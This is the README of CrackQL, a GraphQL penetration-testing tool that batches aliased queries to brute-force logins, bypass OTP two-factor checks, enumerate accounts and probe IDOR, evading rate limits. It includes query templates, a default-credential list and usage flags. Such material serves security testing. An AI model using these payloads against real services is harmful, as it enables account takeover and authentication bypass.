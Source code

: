 CrackQL
=======
CrackQL is a GraphQL password brute-force and fuzzing utility.

<h1 align="center">
	<img src="https://github.com/nicholasaleks/CrackQL/blob/master/static/CrackQL-Banner.png?raw=true" alt="CrackQL"/>
	<br>
</h1>

CrackQL is a versatile GraphQL penetration testing tool that exploits poor rate-limit and cost analysis controls to brute-force credentials and fuzz operations.

## How it works?

CrackQL works by automatically batching a single GraphQL query or mutation into several alias operations. It determines the number of aliases to use based on the CSV input variables. After programmatically generating the batched GraphQL document, CrackQL then batches and sends the payload(s) to the target GraphQL API and parses the results and errors.

## Defense Evasion

Unlike [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder) which sends a request for each unique payload, CrackQL evades traditional API HTTP rate-limit monitoring defenses by using multiple alias queries to stuff large sets of credentials into single HTTP requests. To bypass query cost analysis defenses, CrackQL can be optimized into using a series of smaller batched operations (`-b`) as well as a time delay (`-D`).

## Attack Use Cases

CrackQL can be used for a wide range of GraphQL attacks since it programmatically generates payloads based on a list of dynamic inputs.

### Password Spraying Brute-forcing

CrackQL is perfect against GraphQL deployments that leverage in-band GraphQL authentication operations (such as the [GraphQL Authentication Module](https://www.graphql-modules.com/docs#authentication-module)). The below password spraying example works against [DVGA](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application) with the `sample-inputs/users-and-passwords.csv` dictionary.

*sample-queries/login.graphql*
<pre>
mutation {
  login(username: <b>{{username|str}}</b>, password: <b>{{password|str}}</b>) {
    accessToken
  }
}
</pre>

### Two-factor Authentication OTP Bypass

It is possible to use CrackQL to bypass two-factor authentication by sending all OTP (One Time Password) tokens

*sample-queries/otp-bypass.graphql*
<pre>
mutation {
  twoFactor(otp: <b>{{otp|int}}</b>) {
    accessToken
  }
}
</pre>

### User Account Enumeration

CrackQL can also be used for enumeration attacks to discover valid user ids, usernames and email addresses

*sample-queries/enumeration.graphql*
<pre>
query {
  signup(email: <b>{{email|str}}</b>, password: <b>{{password|str}}</b>) {
    user {
      email
    }
  }
}
</pre>

### Insecure Direct Object Reference

CrackQL could be used to iterate over a large number of potential unique identifiers in order to leak object information

*sample-queries/idor.graphql*
<pre>
query {
  profile(uuid: <b>{{uuid|int}}</b>) {
    name
    email
    picture
  }
}
</pre>

### General Fuzzing

CrackQL can be used for general input fuzzing operations, such as sending potential SQLi and XSS payloads.

## Inputs

CrackQL will generate payloads based on input variables defined by a CSV file. CrackQL requires the CSV header to match the input name.

*sample-inputs/usernames_and_passwords.csv*
<pre>
<b>username</b>, <b>password</b>
admin, admin
admin, password
admin, pass
admin, pass123
admin, password123
operator, operator
operator, password
operator, pass
operator, pass123
operator, password123
</pre>

### Valid input types
- `str`
- `int`
- `float`

## Installation

### Requirements
- Python3
- Requests
- GraphQL

### Clone Repository
`git clone git@github.com:nicholasaleks/CrackQL.git`


### Get Dependencies
`pip install -r requirements.txt`

### Run CrackQL
`python3 CrackQL.py -h`

```
Usage: python3 CrackQL.py -t http://example.com/graphql -q login.graphql -i usernames-and-passwords.csv

Options:
  -h, --help            Show this help message and exit
  -t URL, --target=URL  Target url with a path to the GraphQL endpoint
  -q QUERY, --query=QUERY  Input query or mutation operation with variable payload markers
  -i INPUTS_CSV, --input=INPUTS_CSV
                        Path to a csv list of arguments (i.e. usernames, emails, ids, passwords, otp_tokens, etc.)
  -d DELIMITER, --delimiter=DELIMITER  CSV input delimiter (default: ",")
  -o OUTPUT_JSON, --output-json=OUTPUT_JSON
                        Output results to a JSON file (default: results/[url]-[timestamp].json)
  -b BATCH_SIZE, --batch-size=BATCH_SIZE
                        Number of batch operations per GraphQL document request (default: 100)
  -a ALIAS_NAME, --alias-name=ALIAS_NAME
  -D DELAY, --delay=DELAY  Time delay in seconds between batch requests (default: 0)
  -v, --version         Print out the current version and exit.
```

## Maintainers
* [Nick Aleks](https://github.com/nicholasaleks)
* [Dolev Farhi](https://github.com/dolevf)

